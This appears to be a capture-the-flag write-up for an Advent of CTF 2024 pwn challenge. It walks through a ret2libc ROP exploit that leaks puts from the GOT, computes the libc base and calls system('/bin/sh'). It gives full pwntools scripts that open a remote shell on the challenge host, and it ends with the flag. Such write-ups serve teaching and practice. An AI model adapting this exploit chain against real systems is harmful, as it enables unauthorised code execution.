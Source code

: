 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day16_description.png">

First, I decompiled the binary in dogbolt:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_16_info.png">

It is a simple program, but there is a buffer overflow at `fgets(&buf, 0x80, stdin);`, where 128 bytes are read inside `buf`, which is of type void. There is no win function, so I used ROP. The file is also a 64 bit executable, which is important to keep in mind. First I tried to find the correct offset using the same approach as in the previous binary challenge ([day10](https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/Day10/flag_from_wish.md)). Basically 
I used `cyclic_find` to which I added 8 bytes (size of RBP) and the final offset was `72`. Alright, now my idea was to leak the puts address, which then will help me calculate the base address of libc. This is needed since ASLR is enabled. Since this was a 64 bit executable (remember!?) we also need to be carefull how parameters are passed to functions. Basically, a ROP gadget is needed to pop the value of RDI (thought which function parameters are passed). To find one, I used:

```bash
ROPgadget --binary main | grep "pop rdi"
```

Now, we just need to put the value we want to print (in this case is the memory address of puts) in RDI and then put the function call on the stack. Finally, we need to re-run the main function, so we can do the actual exploit and get the shell.  Here is the exploit described so far:
```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 

rop = ROP(elf) 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
puts_got = elf.got['puts']  
main_addr = 0x4011ee  

payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)
```

Sending the payload now, a line is returned which shows us what we entered and at the end the leaked puts address, so it is important to parse this correctly to get the correct address. I definitely made my approach more complicated than it needed to be:

```python
p = process('./main')          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      

output = p.recvline()  
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
raw_bytes = bytes.fromhex(hex_output.replace(' ', '')) 

search_sequence = b'\x96\x11\x40'
position = raw_bytes.find(search_sequence)
result = raw_bytes[position + len(search_sequence):]
result_without_last_byte = result[:-1]

print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')

```

I transformed the data to hex and look at the bytes after the `96 11 40` sequence which is the address of pop_rdi_ret, but in little endian. Then I just deleted the last byte which is the `\n` character and transformed the address to big endian and then make it an integer value.

Now, I can calculate the value of the base libc by subtracting from the memory address of puts, the offset of puts. With the base libc I can calculate the memory address of the `system` function and the `\bin\sh` string:

```python
libc_base = leaked_puts - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

```

Finally, I crafted the exploit in a similar manner as for the first step, with the only difference being the addition of a ret gadget, which is used for stack alignment.

```python
ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 

p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 
```

Then we get a shell and thus the flag if we connect remote. Below is my final complete script with some additional prints:

```python
from pwn import *

elf = ELF('./main')
libc = ELF('libc.so.6') 
context.log_level='debug'

io = process(elf.path)

rop = ROP(elf) 

# Attach gdb to the running process
#gdb.attach(io, gdbscript=""" set environment LD_LIBRARY_PATH ./libc.so.6 """)

host = "ctf.csd.lol"
port = 2020 

buffer_offset = 72          
pop_rdi_ret = 0x0000000000401196       
puts_plt = elf.plt['puts']   
print("puts_p in Hex:", hex(puts_plt))
puts_got = elf.got['puts']  
print("puts_got in Hex:", hex(puts_got))
main_addr = 0x4011ee         


payload = b"A" * buffer_offset          
payload += p64(pop_rdi_ret)              
payload += p64(puts_got)                 
payload += p64(puts_plt)                 
payload += p64(main_addr)                


#p= process('./main')
p = remote(host,port)          
p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)                      



output = p.recvline()  
print("TESTTT "+ output.decode(errors='ignore'))
hex_output = ' '.join('{:02x}'.format(byte) for byte in output)
print("TESTTT " + hex_output)


raw_bytes = bytes.fromhex(hex_output.replace(' ', ''))  

# Take the bytes after pop_rdi_ret address
search_sequence = b'\x96\x11\x40'

position = raw_bytes.find(search_sequence)

result = raw_bytes[position + len(search_sequence):]
print(result)

result_without_last_byte = result[:-1]
print(result_without_last_byte)

leaked_puts = int.from_bytes(result_without_last_byte, byteorder='little')
print(leaked_puts)

libc_base = leaked_puts - libc.symbols['puts']
print(libc.symbols['puts'])
print("libc_base: " + str(libc_base))

system_addr = libc_base + libc.symbols['system']
print("system_addr: " + str(system_addr))

bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))
print("bin_sh_addr : " + str(bin_sh_addr ))

ret = rop.find_gadget(['ret'])[0] 

payload = b"A" * buffer_offset
payload += p64(ret)             #for stack alignment !!!
payload += p64(pop_rdi_ret)  
payload += p64(bin_sh_addr)
payload += p64(system_addr) 


p.recvuntil("Glaki says: Enter the secret code to unlock the vault:") 
p.sendline(payload)
p.interactive() 

```

An important note is to remember to use `pwnutils` for the local exploit when the libc is given, I personally did not know that and, I had the correct script locally, but of course it didn't work because it's not loading the correct libc. So, just putting the executable and libc file in the same directory is not enough !


`csd{J1Ngl3_b3ll_r0CK_15_b357_XM45_50NG}`
